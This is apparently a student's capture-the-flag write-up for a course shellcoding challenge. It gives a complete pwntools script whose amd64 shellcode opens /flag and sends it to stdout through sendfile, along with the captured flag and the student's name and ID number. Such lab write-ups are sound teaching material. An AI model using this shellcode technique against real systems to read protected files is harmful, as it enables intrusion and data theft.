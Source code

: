 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "peek"
- story: This is another simple shellcoding task. The shellcode runner has a built-in sandbox that will allow you to perform only the following system calls: open, read, write, sendfile. Try to read the flag from /flag. 
- i can provide the program with shellcode that kindly will be executed for me
- the folling script automatically exploits it:
```python
#!/usr/bin/env python3

import pwn

pwn.context.arch = 'amd64'
conn = pwn.remote('tasks.ws24.softsec.rub.de', 32865)

'''
fd_flag = open("/flag", O_RDONLY)
sendfile(stdout, fd_flag, 0, 1024)
return
'''
# this is from the slides
shellcode = pwn.asm('''
    mov rbx, 0x00000067616c662f; # fd_flag = open("/flag", O_RDONLY)
    push rbx;
    mov rax, 2;
    mov rdi, rsp;
    mov rsi, 0;
    syscall;
                    
    mov rdi, 1; # sendfile(stdout, fd_flag, 0, 1024)
    mov rsi, rax;
    mov rdx, 0;
    mov r10, 1000;
    mov rax, 40;
    syscall;
                             
    ret;
''')

# this is another version using string
shellcode = pwn.asm('''
    lea rdi, [rip + string]; # fd_flag = open("/flag", O_RDONLY)
    mov rsi, 0;
    mov rax, 2;
    syscall;
                    
    mov rdi, 1; # sendfile(stdout, fd_flag, 0, 1024)
    mov rsi, rax;
    mov rdx, 0;
    mov r10, 1000;
    mov rax, 40;
    syscall;
                             
    ret;
string:
    .string "/flag"
''')

print(f'shellcode: {shellcode.hex()}')
conn.recvuntil(b'please enter your (hex-encoded) shellcode, at most 4096 bytes:')
conn.sendline(shellcode.hex().encode())
print(f"flag: {conn.recvuntil(b'}')}")
```
- flag:
```
softsec{hjI5HXlbZRtf_WToZkelPgdn-uHddjJzngoDWSWdr_iDeWV2bwqqVJD8iRhIJVW7}
```